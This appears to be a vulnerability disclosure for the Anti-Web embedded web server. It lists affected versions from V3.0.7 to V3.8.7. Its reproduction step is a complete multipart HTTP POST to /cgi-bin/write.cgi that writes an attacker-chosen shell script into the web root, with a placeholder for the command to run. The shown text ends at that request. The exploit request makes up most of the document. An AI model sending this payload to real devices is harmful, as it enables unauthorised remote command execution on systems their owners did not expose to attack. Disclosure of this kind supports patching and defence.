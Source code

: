 
## VERSION WEBSERVER:

* Anti-Web V3.0.7-hms2
* ...
* Anti-Web V3.3.5
* ...
* Anti-Web V3.6.1
* ...	
* Anti-Web V3.7.1
* Anti-Web V3.7.2
* ...
* Anti-Web V3.8.1
* Anti-Web V3.8.2
* Anti-Web V3.8.3
* Anti-Web V3.8.4
* Anti-Web V3.8.5
* Anti-Web V3.8.7


## Steps To Reproduction:

### SIMPLE HTTP Request 

***
	POST /cgi-bin/write.cgi HTTP/1.1
	Host: <HOST>
	User-Agent: Morzilla_ar/7.0 (911; Pinux x86_128; rv:9743.0)
	Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
	Accept-Language: es-AR,en-US;q=0.7,en;q=0.3
	Referer: http://<HOST>/cgi-bin/
	Cookie: ID=0bce4b7eb065092efd274212b25c50e1
	Connection: close
	Content-Type: multipart/form-data; boundary=---------------------------1816993527151539919951297987
	Content-Length: 1513

	-----------------------------1816993527151539919951297987
	Content-Disposition: form-data; name="script1"

	file
	-----------------------------1816993527151539919951297987
	Content-Disposition: form-data; name="filename1"

	/home/httpd/pageimages/RCE.sh
	-----------------------------1816993527151539919951297987
	Content-Disposition: form-data; name="maxsize1"

	9100

	-----------------------------1816993527151539919951297987
	Content-Disposition: form-data; name="content1"

	/bin/'<HERE_COMMAND>'
